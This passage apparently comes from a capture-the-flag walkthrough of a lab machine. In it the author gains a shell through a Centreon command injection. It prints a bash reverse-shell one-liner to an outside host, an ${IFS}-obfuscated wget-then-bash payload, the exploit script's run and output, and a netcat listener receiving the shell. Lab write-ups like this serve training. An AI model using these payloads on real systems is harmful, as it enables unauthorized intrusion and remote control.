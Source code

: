 
And I get a request on my webserver:

    
    
    10.10.10.157 - - [15/Sep/2019 04:49:43] "GET / HTTP/1.1" 200 -
    

I wrote a quick reverse shell script:

    
    
    root@kali# cat shell
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.30/443 0>&1
    

I tried to get `wget` to output to stdout and pipe that into `bash`, but i
couldn’t get that to work. But I did get this to work:

    
    
    wget${IFS}10.10.14.30/shell${IFS}-O${IFS}/tmp/0xdf;${IFS}bash${IFS}-i${IFS}/tmp/0xdf
    

This uses `wget` to get the shell file and save it to `/tmp`, and then use
`bash` to run it.

    
    
    root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 'wget${IFS}10.10.14.30/shell${IFS}-O${IFS}/tmp/0xdf;${IFS}bash${IFS}-i${IFS}/tmp/0xdf'
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : 1892910fb24da4dd4d54fabd156f46fe
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : 71d739093f67a73ed21c823778f3f052
    [*] Payload inject status code: 200
    [+] Injecting Done, triggering the payload
    [+] Check you netcat listener !
    

Hits on webserver:

    
    
    10.10.10.157 - - [15/Sep/2019 05:34:00] "GET /shell HTTP/1.1" 200 - 
    

And then shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.157.
    Ncat: Connection from 10.10.10.157:35064.
    bash: cannot set terminal process group (-1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@Wall:/usr/local/centreon/www$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)
    